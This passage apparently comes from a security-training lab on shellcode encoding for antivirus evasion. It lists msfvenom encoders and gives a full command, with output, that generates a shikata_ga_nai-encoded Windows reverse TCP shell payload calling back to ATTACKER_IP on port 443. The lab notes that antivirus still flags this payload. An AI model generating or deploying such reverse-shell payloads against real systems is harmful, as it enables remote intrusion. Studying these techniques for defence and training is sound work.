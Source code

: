 Task 8 Shellcode Encoding and Encryption

# Encode using MSFVenom

Public Tools such as Metasploit provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim's disk.

Let's generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to msfvenom with the following command:

Listing Encoders within theMetasploitFramework

```
user@AttackBox$ msfvenom --list encoders | grep excellent    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

```bash
msfvenom --list encoders | grep excellent
```

We can indicate we want to use the **`shikata_ga_nai`** encoder with the **`-e`**(encoder) switch and then specify we want to encode the payload three times with the **`-i`** (iterations) switch:

Encoding using the Metasploit framework (Shikata_ga_nai)

```
user@AttackBox$ msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharpFound 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of csharp file: 2170 bytes
```

```bash
msfvenom -a x86 --platform Windows LHOST=ATTACKER_IP LPORT=443 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f csharp
```

If we try uploading our newly generated payload to our test machine, the AV will instantly flag it before we even get a chance to execute it:
